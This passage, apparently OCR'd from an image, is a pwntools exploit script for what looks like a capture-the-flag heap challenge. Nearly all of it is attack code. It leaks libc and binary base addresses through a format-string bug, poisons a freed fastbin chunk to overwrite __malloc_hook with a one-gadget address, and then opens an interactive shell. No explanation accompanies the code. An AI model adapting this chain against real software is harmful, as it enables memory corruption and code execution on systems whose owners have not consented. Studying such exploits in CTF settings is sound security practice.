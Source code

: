 ```asm
	p.sendlineafter(": ", str(idx))

def search_toxin(string):
	p.sendlineafter("> ", "4")
	p.sendlineafter(": ", string)


search_toxin("%3$p")
libc.address = int(p.recvline().strip(b"\n"), 16) - 0x110081
log.info("LIBC:  0x%x" %(libc.address))

search_toxin("%9$p")
elf.address = int(p.recvline().strip(b"\n"), 16) - 0x1284
log.info("ELF:  0x%x" %(elf.address))

alloc(0, 0x70, "AAAA")
free(0)
edit(0, p64(elf.symbols['toxinfreed'] - 0x13))


alloc(1, 0x70, "BBBBB")

payload = b"\x00"*35
payload += p64(libc.symbols['__malloc_hook'])
payload += p64(0)*3
payload += p64(0x70)
alloc(2, 0x70, payload)

edit(0, p64(libc.address + 0x10a38c))
p.sendlineafter("> ", "1")
p.sendlineafter(": ", str(0x70))
p.sendlineafter(": ", "1")

p.interactive()
```


